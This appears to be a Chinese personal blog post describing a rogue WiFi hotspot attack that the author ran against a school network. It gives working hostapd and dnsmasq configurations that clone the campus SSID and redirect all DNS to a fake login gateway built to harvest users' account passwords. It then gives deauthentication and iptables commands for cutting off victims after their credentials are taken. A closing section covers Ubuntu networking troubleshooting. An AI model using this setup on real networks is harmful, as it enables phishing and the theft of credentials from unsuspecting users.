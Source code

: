 title:WIFI 热点欺骗
Date: 2014-11-23 15:21
Modified: 2014-11-23 15:21
Category: web
Tags: WIFI, Linux
Slug: real-attack-show-wifi-vulnerability
Authors: nullne
Summary:
_很久以前看过一篇关于WIFI脆弱性的[介绍](http://fex.baidu.com/blog/2014/04/traffic-hijack/)(找了好久终于被我找到了)，其中有一部分试讲由于本身协议的弱点，相同 ssid 的热点会被合并为同一个，至于用户最终连接哪个热点取决于他所能接收到的信号强度。不知道此刻各位看官脑洞有没有大开？_
_俗话说杀生不如宰熟，所以直接就向学校 ap 下手了。提前声明几个全局变量：_

```
ssid: NICESHOT
os： ubuntu
```


###简单部署
####用 hostapd 建立热点
>“**hostapd** is a user space daemon for access point and authentication servers. “

```
sudo apt-get install hostapd
```
更改配置文件 _/etc/hostapd-hotspot.conf_ 如下：
```
# WiFi Hotspot
interface=wlan0
driver=nl80211
#Access Point
ssid=NICESHOT
hw_mode=g
# WiFi Channel:
channel=1
#macaddr_acl=0
auth_algs=1
wmm_enabled=0
#ignore_broadcast_ssid=0
#wpa=3
#wpa_passphrase=1
#wpa_key_mgmt=WPA-PSK
#wpa_pairwise=TKIP
#rsn_pairwise=CCMP
ctrl_interface=/var/run/hostapd
```
可能还需要更改 _/etc/default/hostapd_ 为
```
DAEMON_CONF=/etc/hostapd/hostapd.conf
```
然后测试配置文件`hostapd -d /etc/hostapd-hotspot.conf`,  没有什么问题的话就可以启动服务了
```
service hostapd start
```
####微型 DNCP & DNS -- dnsmasq
>Dnsmasq is a free software DNS forwarder and DHCP server for small networks. It is considered to be easily configured, with low system resource usage.

```
sudo apt-get install dnsmasq
```
更改配置文件 _/etc/dnsmasq.conf_
```
log-facility=/var/log/dnsmasq.log
address=/#/192.168.1.1
interface=wlan0                                                                             
dhcp-range=192.168.1.20,192.168.1.254,12h
no-resolv 
```
然后比较关键的是配置 **wlan0** IP 地址 `ifconfig wlan0 192.168.1.1`。
稍微总结一下，到此为止，我们做了这么些事情：创建 WFIFI 热点，监听 **wlan0** 口，然后通过配置DHCP给所有连接到此 AP 的终端分配IP地址。另外上面的这条配置`address=/#/192.168.1.1`，将所有地址解析到我们的电脑 IP。
####搭建服务器
此处就不详说了，最终达到的效果是访问 `192.168.1.1`是我们的钓鱼网站。
因为校园网需要登陆，也就是说连接校园 AP 之后将所有 HTTP 页面跳转到网关登陆界面。所以我们也部署一个一模一样的登陆网关，然后所有连接的用户跟往常一样登陆网关，神不知鬼不觉得就把账号密码泄露过来了。稍后我会分享此处的简单代码 DEMO 到 GitHub。
###进阶
当然不能停止在这么简陋的东西上面，我们需要更进一步。
####粗暴的强制下线
毕竟我们只有一个无线网卡，用作 AP 之后就不能接入其他网络了，环境也不允许拉一根网线，用户登录网关之后根本没办法继续上网，很快你的伪 AP 就会被发现。所以我们强制所有登录网管，也就是被我们窃取密码的用户离线。
```
hostapd_cli deauthenticate 38:bc:1a:88:12:61                                                     
iptables -A INPUT -m mac --mac-source 38:bc:1a:88:12:61 -j DROP
```
第一句强制用户离线，之前在配置 hostapd 的时，这句就是为了达到这个目的 `ctrl_interface=/var/run/hostapd`，第二句将所有该设备的请求丢弃。这就是当一个人丧失所有利用价值之后的下场！
####配置更为合理的 iptables（还没有实现）
当然，前提是我们自己的电脑还可以通过其他口，比如 _eth0_，访问正常网络。
通过配置合理强大的 **iptables**,精心布局，我们不仅仅获取网关密码这么简单的并且还需要特别严格苛刻的场景的蛋糕。比方截获特定 URL 的东西。
###思考
###后记
####伤敌一百，自损三千
因为自己的装备跟技术很挫，在配置之前那些东西的时候碰到了一些问题，险些出师未捷身先死。
在 ubuntu 下，`service networking restart`,然后你就各种问题爽翻天
- 现在，至少目前为止插上网线之后还需要 `ifup eth0` 才能通过有线上网
- 现在，至少目前为止我连接 WIFI 的时候需要这么做（运气好的话差不多能连接上）
```
ifup wlan0   #up the wlan port 
iwlist wlan0 scan #list availabel wifi ssid
iwconfig wlan0 essid "NICESHOT"  #no password
iwconfig wlan0 ssid "NICESHOT" key password   #with password
dhcpclient wlan0   #get ip via dhcp 
```
- 电脑里面出现了奇怪的端口:wlan0:avahi
- 系统自带的 network-manager 罢工了
- 其他未知错误待续
